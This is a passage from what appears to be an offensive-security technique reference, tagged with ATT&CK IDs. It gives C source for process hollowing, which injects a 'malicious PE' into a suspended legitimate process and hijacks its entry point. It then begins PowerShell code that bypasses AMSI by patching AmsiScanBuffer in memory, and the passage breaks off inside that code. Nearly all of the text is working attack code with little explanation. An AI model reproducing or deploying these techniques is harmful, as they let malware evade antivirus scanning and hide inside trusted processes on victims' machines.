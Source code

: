 #### Process Hollowing
```c
BOOL process_hollowing(const char* target_exe, const char* malicious_exe) {
    STARTUPINFOA si = {0};
    PROCESS_INFORMATION pi = {0};
    
    // 1. Create suspended target process
    CreateProcessA(target_exe, NULL, NULL, NULL, FALSE,
                   CREATE_SUSPENDED, NULL, NULL, &si, &pi);
    
    // 2. Unmap original executable from memory
    HMODULE ntdll = GetModuleHandleA("ntdll.dll");
    ZwUnmapViewOfSection_t ZwUnmapViewOfSection = 
        (ZwUnmapViewOfSection_t)GetProcAddress(ntdll, "ZwUnmapViewOfSection");
    
    // Get target image base
    CONTEXT ctx;
    ctx.ContextFlags = CONTEXT_FULL;
    GetThreadContext(pi.hThread, &ctx);
    
    LPVOID image_base;
    ReadProcessMemory(pi.hProcess, (LPVOID)(ctx.Rdx + 16), &image_base, sizeof(LPVOID), NULL);
    
    // Unmap
    ZwUnmapViewOfSection(pi.hProcess, image_base);
    
    // 3. Allocate new memory
    LPVOID new_base = VirtualAllocEx(pi.hProcess, image_base,
                                     malicious_size, MEM_COMMIT | MEM_RESERVE,
                                     PAGE_EXECUTE_READWRITE);
    
    // 4. Write malicious PE
    WriteProcessMemory(pi.hProcess, new_base, malicious_pe_data, malicious_size, NULL);
    
    // 5. Update entry point
    ctx.Rcx = (DWORD64)((LPBYTE)new_base + entry_point_rva);
    SetThreadContext(pi.hThread, &ctx);
    
    // 6. Resume
    ResumeThread(pi.hThread);
    
    return TRUE;
}
```

### 2.2 AMSI Bypass (T1562.001)

Antimalware Scan Interface (AMSI) inspection can be bypassed.

#### Memory Patching
```powershell
# Patch AmsiScanBuffer to always return success
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    
    [DllImport("kernel32")]
```